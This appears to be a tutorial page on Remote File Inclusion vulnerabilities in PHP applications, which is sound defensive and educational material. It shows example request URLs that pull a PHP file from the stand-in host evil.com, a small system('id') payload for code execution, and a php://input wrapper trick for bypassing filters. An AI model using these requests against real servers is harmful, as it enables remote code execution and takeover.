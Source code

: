 **RFI** is a web vulnerability that occurs when an application allows users to include files from a remote server via a URL or other manipulable parameters. This vulnerability can allow attackers to include malicious files from external sources, potentially leading to remote code execution, information disclosure, and other severe security issues.

---

## Identifying RFI

Look for parameters that might reference files and that could potentially be manipulated to include remote files, such as:

- `url=`
- `file=`
- `page=`
- `include=`


```bash
http://example.com/index.php?page=http://evil.com/malicious_file.php
```
In this case, the attacker might manipulate the `page` parameter to include an external file.


##  Remote Code Execution via RFI

RFI can allow an attacker to execute malicious code hosted on an external server. For example, the attacker could upload a malicious PHP file to a server they control and then trick the vulnerable application into including and executing that file.

```bash
http://example.com/index.php?page=http://evil.com/malicious_code.php
```

In this case, the attacker’s server `evil.com` would serve the malicious PHP file, which might contain code like:

```php
<?php
    system('id'); // Executes the 'id' command on the server
?>
```

This can lead to **Remote Code Execution (RCE)** and potentially give the attacker full control of the vulnerable server.

## Bypassing Input Filters

Sometimes, applications may filter specific file extensions like `.php` or `.exe` to prevent RFI exploitation. However, an attacker may bypass these restrictions by using input manipulation techniques.

- **Using wrappers**: PHP allows using wrappers to manipulate file streams. For instance, the `php://input` wrapper can be used to execute content without the usual file extension restrictions.
```bash
http://example.com/index.php?page=php://input
```

By sending a specially crafted request containing malicious PHP code in the body, an attacker might include and execute arbitrary code.